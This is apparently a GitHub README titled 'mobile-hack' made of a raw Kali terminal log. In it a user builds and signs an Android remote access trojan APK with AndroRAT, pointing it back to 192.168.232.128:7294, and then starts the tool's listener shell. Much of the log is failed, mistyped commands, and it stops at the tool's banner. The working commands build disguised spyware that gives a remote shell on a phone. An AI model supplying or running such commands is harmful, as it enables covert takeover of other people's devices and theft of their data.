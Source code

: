 # mobile-hack




─$ python androRAT.py --build -i 192.168.232.25 8282 -o redmi.apk
usage: androRAT.py [--build] [--shell] [-i <IP> -p <PORT> -o <apk name>]
androRAT.py: error: unrecognized arguments: 8282
                                                                             
┌──(parchurimadankumar㉿kali)-[~/AndroRAT]
└─$ python androRAT.py --build -i 192.168.232.128  8282 -o redmi.apk
usage: androRAT.py [--build] [--shell] [-i <IP> -p <PORT> -o <apk name>]
androRAT.py: error: unrecognized arguments: 8282
                                                                             
┌──(parchurimadankumar㉿kali)-[~/AndroRAT]
└─$ python androRAT.py --build -i 192.168.232.128  1500 -o redmi.apk
usage: androRAT.py [--build] [--shell] [-i <IP> -p <PORT> -o <apk name>]
androRAT.py: error: unrecognized arguments: 1500
                                                                             
┌──(parchurimadankumar㉿kali)-[~/AndroRAT]
└─$ python androRAT.py --build -i 192.168.232.128  7294 -o redmi.apk
usage: androRAT.py [--build] [--shell] [-i <IP> -p <PORT> -o <apk name>]
androRAT.py: error: unrecognized arguments: 7294
                                                                             
┌──(parchurimadankumar㉿kali)-[~/AndroRAT]
└─$ python androRAT.py --build -i 192.168.232.128 -p  7294 -o redmi.apk
[INFO] Generating APK
[INFO] Building APK | 
[SUCCESS] Successfully apk built in /home/parchurimadankumar/AndroRAT/redmi.apk
[INFO] Signing the apk
[INFO] Signing Apk | 
[SUCCESS] Successfully signed the apk redmi.apk
 
                                                                             
┌──(parchurimadankumar㉿kali)-[~/AndroRAT]
└─$ ls
Android_Code  Dumps      __pycache__  requirements.txt
androRAT.py   Jar_utils  README.md    Screenshots
Compiled_apk  LICENSE    redmi.apk    utils.py
                                                                             
┌──(parchurimadankumar㉿kali)-[~/AndroRAT]
└─$ python3 androRAT,py  --shell -i 0.0.0.0 -p 7294                    
python3: can't open file '/home/parchurimadankumar/AndroRAT/androRAT,py': [Errno 2] No such file or directory
                                                                             
┌──(parchurimadankumar㉿kali)-[~/AndroRAT]
└─$ python3 androRAT,py  --shell -i 0.0.0.0 -p 7294
python3: can't open file '/home/parchurimadankumar/AndroRAT/androRAT,py': [Errno 2] No such file or directory
                                                                             
┌──(parchurimadankumar㉿kali)-[~/AndroRAT]
└─$ ls
Android_Code  Dumps      __pycache__  requirements.txt
androRAT.py   Jar_utils  README.md    Screenshots
Compiled_apk  LICENSE    redmi.apk    utils.py
                                                                             
┌──(parchurimadankumar㉿kali)-[~/AndroRAT]
└─$ python androRAT,py  --shell -i 0.0.0.0 -p 7294 
python: can't open file '/home/parchurimadankumar/AndroRAT/androRAT,py': [Errno 2] No such file or directory
                                                                             
┌──(parchurimadankumar㉿kali)-[~/AndroRAT]
└─$ python3 androRAT,py  --shell -i 0.0.0.0 -p 7294
python3: can't open file '/home/parchurimadankumar/AndroRAT/androRAT,py': [Errno 2] No such file or directory
                                                                             
┌──(parchurimadankumar㉿kali)-[~/AndroRAT]
└─$ python3 androRAT,py  --shell -i 0.0.0.0 -p 7294
python3: can't open file '/home/parchurimadankumar/AndroRAT/androRAT,py': [Errno 2] No such file or directory
                                                                             
┌──(parchurimadankumar㉿kali)-[~/AndroRAT]
└─$ cd AndroRAT
cd: no such file or directory: AndroRAT
                                                                             
┌──(parchurimadankumar㉿kali)-[~/AndroRAT]
└─$ ls
Android_Code  Dumps      __pycache__  requirements.txt
androRAT.py   Jar_utils  README.md    Screenshots
Compiled_apk  LICENSE    redmi.apk    utils.py
                                                                             
┌──(parchurimadankumar㉿kali)-[~/AndroRAT]
└─$ python3 androRAT,py  --shell -i 0.0.0.0 -p 7294
python3: can't open file '/home/parchurimadankumar/AndroRAT/androRAT,py': [Errno 2] No such file or directory
                                                                             
┌──(parchurimadankumar㉿kali)-[~/AndroRAT]
└─$ androRAT.py    
androRAT.py: command not found
                                                                             
┌──(parchurimadankumar㉿kali)-[~/AndroRAT]
└─$ python androRAT.py --shell -i 0.0.0.0  -p  7294 

                    _           _____         _______                        
    /\             | |         |  __ \     /\|__   __|                       
   /  \   _ __   __| |_ __ ___ | |__) |   /  \  | |                          
  / /\ \ | '_ \ / _` | '__/ _ \|  _  /   / /\ \ | |                          
 / ____ \| | | | (_| | | | (_) | | \ \  / ____ \| |                          
/_/    \_\_| |_|\__,_|_|  \___/|_|  \_\/_/    \_\_|                          
                                                          
